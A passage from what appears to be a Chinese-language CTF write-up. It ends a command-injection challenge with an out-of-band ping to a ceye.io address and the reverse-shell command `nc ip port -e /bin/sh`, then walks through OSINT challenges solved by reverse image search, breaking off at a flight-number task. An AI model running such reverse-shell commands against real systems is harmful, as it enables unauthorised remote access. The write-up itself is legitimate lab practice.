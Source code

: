 然后 ping 了一下我的 ceye.io 地址, 发现存在记录

最后 `nc ip port -e /bin/sh` 直接弹了个 shell 查看 flag

写 wp 的时候发现 ifconfig 和 ping 那两步其实并不需要, 直接 nc 也能弹 shell, 不太理解给剩下三个命令是什么意思...

## OSINT

### 社工签到

![osint1](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/osint1.jpeg)

flag 格式 `ctfshow{小镇名字}`

让我们找到这个小镇的名字

Google 搜图 `https://www.google.com.hk/imghp`

![20220805180909](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220805180909.png)

点开一个

![20220805180922](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220805180922.png)

`天涯镇` 一开始提交失败, 然后换成 `天涯小镇` 提交成功

后面又发了公告应该把 flag 改正过来了

### 迷失的大象

![osint2](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/osint2.jpeg)

flag 格式 `ctfshow{原籍县区全称}`

依然是搜图

![20220805181125](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220805181125.png)

这里有很多误导性信息, 根本没有提到 "喝醉遣返" 的事情

翻到第二页发现这个网址

`https://k.sina.com.cn/article_5638975650_1501bf0a2001016txn.html`

![20220805181311](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220805181311.png)

全称

![20220805181351](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220805181351.png)

### 大飞机

![osint3](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/osint3.jpg)

flag 格式 `ctfshow{航班号}`
